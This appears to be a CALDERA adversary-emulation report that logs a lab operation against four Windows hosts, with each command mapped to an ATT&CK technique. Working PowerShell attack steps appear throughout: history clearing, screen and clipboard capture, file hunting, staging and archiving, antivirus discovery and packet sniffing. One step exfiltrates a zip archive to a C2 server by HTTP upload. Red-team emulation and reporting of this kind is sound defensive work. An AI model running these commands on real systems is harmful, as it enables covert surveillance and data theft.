

Super Spy
=========

# CALDERA Operation Report

**Operation:** Super Spy **Start:** 2024-09-13T18:21:57Z **Adversary:** Super Spy
# Hosts Attacked

|Host|User|Beachhead Cmd|PID|Parent PID|IPs|C2 Server|
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|ACME-HH-ZYQ|ACME\grantj|splunkd.exe|3872|4840|172.31.45.222|http://172.31.10.226:8888|
|ACME-HH-EUO|ACME\grantj|splunkd.exe|1052|2004|172.31.41.178|http://172.31.10.226:8888|
|ACME-WS-PLU|ACME\grantj|splunkd.exe|1116|8312|172.31.11.139, 172.25.240.1|http://172.31.10.226:8888|
|ACME-HH-ESO|ACME\grantj|splunkd.exe|8376|8992|172.31.39.111|http://172.31.10.226:8888|

# Execution Timeline

**[LINK] ACME-HH-ZYQ (kwmxux)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 2304

**Time:** 2024-09-04T03:18:40Z → 2024-09-04T03:18:40Z

**[LINK] ACME-HH-EUO (acpuoe)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 4324

**Time:** 2024-09-13T17:10:22Z → 2024-09-13T17:10:22Z

**[LINK] ACME-WS-PLU (hkrmxr)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 8504

**Time:** 2024-09-13T17:12:11Z → 2024-09-13T17:12:12Z

**[LINK] ACME-HH-ESO (nowkww)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 10164

**Time:** 2024-09-13T17:15:40Z → 2024-09-13T17:15:40Z

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;`

**Description:** capture the contents of the screen

**Technique:** Screen Capture

**ATT&CK:** [T1113](https://attack.mitre.org/techniques/T1113)

**Status:** `Success`

**PID:** 792

**Time:** 2024-09-13T18:22:34Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `Get-Clipboard -raw`

**Description:** copy the contents for the clipboard and print them

**Technique:** Clipboard Data

**ATT&CK:** [T1115](https://attack.mitre.org/techniques/T1115)

**Status:** `Success`

**PID:** 1260

**Time:** 2024-09-13T18:23:13Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `New-Item -Path "." -Name "staged" -ItemType "directory" -Force | foreach {$_.FullName} | Select-Object`

**Description:** create a directory for exfil staging

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Failed`

**PID:** 3112

**Time:** 2024-09-13T18:24:09Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.wav -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 5520

**Time:** 2024-09-13T18:25:05Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.png -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 8376

**Time:** 2024-09-13T18:25:51Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.yml -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 8636

**Time:** 2024-09-13T18:26:37Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `wmic /NAMESPACE:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value`

**Description:** Identify AV

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Failed`

**PID:** 8324

**Time:** 2024-09-13T18:27:20Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `.\obfuscated_payload.ps1 -Scan`

**Description:** View all potential WIFI networks on host

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Failed`

**PID:** 9028

**Time:** 2024-09-13T18:27:54Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `.\wifi.ps1 -Pref`

**Description:** See the most used WIFI networks of a machine

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Failed`

**PID:** 4704

**Time:** 2024-09-13T18:28:57Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;`

**Description:** capture the contents of the screen

**Technique:** Screen Capture

**ATT&CK:** [T1113](https://attack.mitre.org/techniques/T1113)

**Status:** `Success`

**PID:** 5432

**Time:** 2024-09-13T18:22:31Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `Get-Clipboard -raw`

**Description:** copy the contents for the clipboard and print them

**Technique:** Clipboard Data

**ATT&CK:** [T1115](https://attack.mitre.org/techniques/T1115)

**Status:** `Success`

**PID:** 6472

**Time:** 2024-09-13T18:23:08Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `New-Item -Path "." -Name "staged" -ItemType "directory" -Force | foreach {$_.FullName} | Select-Object`

**Description:** create a directory for exfil staging

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Success`

**PID:** 4396

**Time:** 2024-09-13T18:23:44Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.wav -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 3032

**Time:** 2024-09-13T18:24:48Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.png -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 5860

**Time:** 2024-09-13T18:25:49Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.yml -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 4468

**Time:** 2024-09-13T18:26:36Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `Compress-Archive -Path C:\Windows\system32\staged -DestinationPath C:\Windows\system32\staged.zip -Force;sleep 1; ls C:\Windows\system32\staged.zip | foreach {$_.FullName} | select`

**Description:** Compress a directory on the file system

**Technique:** Archive Collected Data: Archive via Utility

**ATT&CK:** [T1560.001](https://attack.mitre.org/techniques/T1560/001)

**Status:** `Failed`

**PID:** 6956

**Time:** 2024-09-13T18:27:41Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `wmic /NAMESPACE:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value`

**Description:** Identify AV

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Failed`

**PID:** 6208

**Time:** 2024-09-13T18:28:17Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `.\obfuscated_payload.ps1 -Scan`

**Description:** View all potential WIFI networks on host

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Failed`

**PID:** 2188

**Time:** 2024-09-13T18:29:18Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `.\wifi.ps1 -Pref`

**Description:** See the most used WIFI networks of a machine

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Success`

**PID:** 5216

**Time:** 2024-09-13T18:30:00Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `$path = "$ENV:UserProfile\Desktop\pcap.etl";New-NetEventSession -Name "PCAP" -CaptureMode SaveToFile -LocalFilePath $path;Add-NetEventProvider -Name "Microsoft-Windows-TCPIP" -SessionName "PCAP";Start-NetEventSession -Name "PCAP";Start-Sleep -s 60;Stop-NetEventSession -Name "PCAP";if (Test-Path $path) {  echo $path;  exit 0;} else {  echo "Failed to generate PCAP file.";  exit 1;};`

**Description:** Perform a packet capture

**Technique:** Network Sniffing

**ATT&CK:** [T1040](https://attack.mitre.org/techniques/T1040)

**Status:** `Success`

**PID:** 3840

**Time:** 2024-09-13T18:32:12Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;`

**Description:** capture the contents of the screen

**Technique:** Screen Capture

**ATT&CK:** [T1113](https://attack.mitre.org/techniques/T1113)

**Status:** `Success`

**PID:** 9912

**Time:** 2024-09-13T18:22:15Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Get-Clipboard -raw`

**Description:** copy the contents for the clipboard and print them

**Technique:** Clipboard Data

**ATT&CK:** [T1115](https://attack.mitre.org/techniques/T1115)

**Status:** `Success`

**PID:** 3504

**Time:** 2024-09-13T18:23:18Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `New-Item -Path "." -Name "staged" -ItemType "directory" -Force | foreach {$_.FullName} | Select-Object`

**Description:** create a directory for exfil staging

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Success`

**PID:** 8676

**Time:** 2024-09-13T18:24:02Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.wav -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 6552

**Time:** 2024-09-13T18:25:06Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.png -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 6360

**Time:** 2024-09-13T18:25:41Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.yml -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 9144

**Time:** 2024-09-13T18:26:49Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Copy-Item C:\Users\grantj\.conda\pkgs\ipykernel-6.26.0-pyha63f2e9_0\share\jupyter\kernels\python3\logo-64x64.png C:\Windows\system32\staged`

**Description:** copy files to staging directory

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Success`

**PID:** 5320

**Time:** 2024-09-13T18:27:46Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Copy-Item C:\Users\grantj\.conda\pkgs\ipykernel-6.26.0-pyha63f2e9_0\share\jupyter\kernels\python3\logo-32x32.png C:\Windows\system32\staged`

**Description:** copy files to staging directory

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Success`

**PID:** 5888

**Time:** 2024-09-13T18:28:47Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Copy-Item C:\Users\grantj\.conda\pkgs\ipython-8.17.2-pyh5737063_0\site-packages\IPython\lib\tests\test.wav C:\Windows\system32\staged`

**Description:** copy files to staging directory

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Success`

**PID:** 8424

**Time:** 2024-09-13T18:29:46Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `Compress-Archive -Path C:\Windows\system32\staged -DestinationPath C:\Windows\system32\staged.zip -Force;sleep 1; ls C:\Windows\system32\staged.zip | foreach {$_.FullName} | select`

**Description:** Compress a directory on the file system

**Technique:** Archive Collected Data: Archive via Utility

**ATT&CK:** [T1560.001](https://attack.mitre.org/techniques/T1560/001)

**Status:** `Success`

**PID:** 8848

**Time:** 2024-09-13T18:30:34Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `$ErrorActionPreference = 'Stop';$fieldName = "C:\Windows\system32\staged.zip";$filePath = "C:\Windows\system32\staged.zip";$url = "http://172.31.10.226:8888/file/upload";Add-Type -AssemblyName 'System.Net.Http';$client = New-Object System.Net.Http.HttpClient;$content = New-Object System.Net.Http.MultipartFormDataContent;$fileStream = [System.IO.File]::OpenRead($filePath);$fileName = [System.IO.Path]::GetFileName($filePath);$fileContent = New-Object System.Net.Http.StreamContent($fileStream);$content.Add($fileContent, $fieldName, $fileName);$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-hkrmxr');$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");$result = $client.PostAsync($url, $content).Result;$result.EnsureSuccessStatusCode();`

**Description:** Exfil the staged directory

**Technique:** Exfiltration Over C2 Channel

**ATT&CK:** [T1041](https://attack.mitre.org/techniques/T1041)

**Status:** `Success`

**PID:** 8132

**Time:** 2024-09-13T18:31:31Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `wmic /NAMESPACE:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value`

**Description:** Identify AV

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Failed`

**PID:** 268

**Time:** 2024-09-13T18:33:02Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `.\obfuscated_payload.ps1 -Scan`

**Description:** View all potential WIFI networks on host

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Failed`

**PID:** 5248

**Time:** 2024-09-13T18:33:36Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `.\wifi.ps1 -Pref`

**Description:** See the most used WIFI networks of a machine

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Success`

**PID:** 740

**Time:** 2024-09-13T18:34:14Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `$path = "$ENV:UserProfile\Desktop\pcap.etl";New-NetEventSession -Name "PCAP" -CaptureMode SaveToFile -LocalFilePath $path;Add-NetEventProvider -Name "Microsoft-Windows-TCPIP" -SessionName "PCAP";Start-NetEventSession -Name "PCAP";Start-Sleep -s 60;Stop-NetEventSession -Name "PCAP";if (Test-Path $path) {  echo $path;  exit 0;} else {  echo "Failed to generate PCAP file.";  exit 1;};`

**Description:** Perform a packet capture

**Technique:** Network Sniffing

**ATT&CK:** [T1040](https://attack.mitre.org/techniques/T1040)

**Status:** `Success`

**PID:** 6924

**Time:** 2024-09-13T18:36:23Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;`

**Description:** capture the contents of the screen

**Technique:** Screen Capture

**ATT&CK:** [T1113](https://attack.mitre.org/techniques/T1113)

**Status:** `Success`

**PID:** 4844

**Time:** 2024-09-13T18:22:20Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `Get-Clipboard -raw`

**Description:** copy the contents for the clipboard and print them

**Technique:** Clipboard Data

**ATT&CK:** [T1115](https://attack.mitre.org/techniques/T1115)

**Status:** `Success`

**PID:** 2356

**Time:** 2024-09-13T18:23:22Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `New-Item -Path "." -Name "staged" -ItemType "directory" -Force | foreach {$_.FullName} | Select-Object`

**Description:** create a directory for exfil staging

**Technique:** Data Staged: Local Data Staging

**ATT&CK:** [T1074.001](https://attack.mitre.org/techniques/T1074/001)

**Status:** `Success`

**PID:** 10080

**Time:** 2024-09-13T18:24:18Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.wav -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 4820

**Time:** 2024-09-13T18:25:12Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.png -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 7636

**Time:** 2024-09-13T18:25:56Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `Get-ChildItem C:\Users -Recurse -Include *.yml -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5;exit 0;`

**Description:** Locate files deemed sensitive

**Technique:** Data from Local System

**ATT&CK:** [T1005](https://attack.mitre.org/techniques/T1005)

**Status:** `Success`

**PID:** 1716

**Time:** 2024-09-13T18:26:47Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `Compress-Archive -Path C:\Users\grantj\staged -DestinationPath C:\Users\grantj\staged.zip -Force;sleep 1; ls C:\Users\grantj\staged.zip | foreach {$_.FullName} | select`

**Description:** Compress a directory on the file system

**Technique:** Archive Collected Data: Archive via Utility

**ATT&CK:** [T1560.001](https://attack.mitre.org/techniques/T1560/001)

**Status:** `Failed`

**PID:** 3200

**Time:** 2024-09-13T18:27:32Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `wmic /NAMESPACE:\\root\SecurityCenter2 PATH AntiVirusProduct GET /value`

**Description:** Identify AV

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Failed`

**PID:** 1096

**Time:** 2024-09-13T18:28:13Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `.\obfuscated_payload.ps1 -Scan`

**Description:** View all potential WIFI networks on host

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Failed`

**PID:** 5000

**Time:** 2024-09-13T18:29:20Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `.\wifi.ps1 -Pref`

**Description:** See the most used WIFI networks of a machine

**Technique:** System Network Configuration Discovery

**ATT&CK:** [T1016](https://attack.mitre.org/techniques/T1016)

**Status:** `Success`

**PID:** 7516

**Time:** 2024-09-13T18:30:13Z → N/A

